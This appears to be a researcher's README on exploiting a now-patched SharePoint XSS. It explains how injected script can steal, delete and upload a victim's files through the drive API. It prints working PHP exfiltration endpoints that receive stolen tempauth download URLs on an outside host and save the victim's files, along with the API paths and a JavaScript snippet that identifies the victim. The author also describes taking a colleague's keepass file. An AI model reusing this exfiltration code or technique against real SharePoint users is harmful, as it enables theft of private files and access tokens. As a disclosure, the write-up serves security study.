 # SharePoint JavaScript/API Investigation

Due to discovery of XSS in SharePoint on-premise and their hosted solutions, I was asked to see what could be done with the XSS. I hosted a few JavaScript files during the investigation since I was able to inject a script tag and use the src attribute to link to the hosted files.

I also was able to use a version of SharePoint that had the aspx file rendering and I was able to use that to create files with embedded payloads and made the files look like they belonged in SharePoint.

What was I able to do if a user accessed the XSS:
- Steal any user's files (hidden,private,public)
- Delete any user's files
- Upload any file to the user's sharepoint drive
- Anything else the API allowed us to do

The interactions happened against the drive API and also could be done using graphql.

## How could you steal file?
Well, the API created URLs with an authorization token. By stealing that URL, it was easy to just access

For the listing of all of a user's files, it was simple enough to just call out to the user's drive API (depends on API version):
- var t = "/_api/v2.1/drive/items/root";
- var t = "/_api/v2.0/drive/items/root/children";

There are just enough changes in version 2.0 to 2.1 of the drive API to have to write separate scripts.

The API provided us with a url with the tempauth parameter that allows anyone with that URL access the item for a decent amount of time.
```
https://REDACTED-my.sharepoint.com/personal/REDACTED/_layouts/15/download.aspx?UniqueId=REDACTED&Translate=false&tempauth=<<<<TOKEN!!!>>>>&ApiVersion=2.1
```

I also used a not so elegant version of the stealing of the token. It basically would show up as an image (`/tiny.png?steal_bs=`) access with a querystring stored in access.log. Then I decided it may be more useful to use a file such as spimage.php.

### What is in spimage.php?

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: image/png');

$url = $_GET["auth_url"];
$file_name = $_GET["name"];
if(isset($_GET['auth_url']) && !empty($_GET['name']))
{
	$data = "<p><a href='".base64_decode($url)."'>".$file_name."</a></p>\r\n";
	file_put_contents('./REDACTED/xfil.html', $data , FILE_APPEND);
}
echo file_get_contents('http://REDACTED/tiny.png');
?>

```

### What is in sp_exfil.php
Well it is less elegant that the above...I don't like this one, but it is referrenced in the JavaScript.

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: application/json');

$data = json_decode(file_get_contents('php://input'), true);
$url = $data["auth_url"];
$file_name = $data["name"];
echo './REDACTED/'.$file_name;
file_put_contents('./REDACTED/'.$file_name, file_get_contents($url));  
?>

```

## Upload and Delete
The Upload and Delete required obtaining tokens from another requests This can be seen in the following function calls of delete_files.js
- stealBearer
- getDigest

In the Upload I obtained the token in a slightly different way:
- getDigest

## Who is our victim?
The victim is anyone who accesses the XSS or pages (if you are able to use aspx). 

I did not have a lot of time to look into discovering who the victim would be, so I had to come up with a quick and dirty way of identifying them for requests needing their username:
```
document.write("<iframe src='/' id='whoareu' border=0 width=1 height=1></iframe>");const myTimeout = setTimeout(whoareu, 2000);
function whoareu() {
	var theurl=document.getElementById('whoareu').contentWindow.location.href;
	user = new URL(theurl).pathname.split('/')[2];
	// REST OF FUNCTION REMOVED AS NOT NECESSARY
}
```
In the above, I needed an iframe to hit the root of the SharePoint instance and it would redirect the user to their directory. Then I could parse the information out to be used for the Upload and Delete functions.

## What happened?
Well, the XSS was patched earlier this year and my other XSS findings in the past have been patched. Depending on deployment, you may be able to just create aspx files to embed your payloads. However, there are always 3rd party components that have plenty of bugs.

My favorite part while working on this was when it executed against someone I was testing with. I was able to download their keepass file that was only accessible to them.

